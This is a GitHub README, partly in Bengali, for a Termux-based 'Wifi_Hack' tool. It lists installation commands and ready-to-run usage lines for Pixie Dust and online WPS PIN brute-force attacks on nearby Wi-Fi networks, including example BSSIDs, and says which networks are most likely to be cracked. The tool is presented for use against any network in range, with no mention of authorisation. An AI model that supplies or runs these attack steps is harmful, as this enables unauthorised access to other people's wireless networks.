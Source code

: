## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="[https://i.ibb.co/K74g0SC/hulu.jpg](https://ibb.co/VSGj5X8)"></p>

### Installation :

```bash
$ pkg update && pkg upgrade
$ pkg install git python
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python 
$ wpa-supplicant pixiewps iw
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py
এরপর Wifi অফ করে
$ sudo python fück-wifi.py -i wlan0 -K

পরের বার Tool অপেন করতে 
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

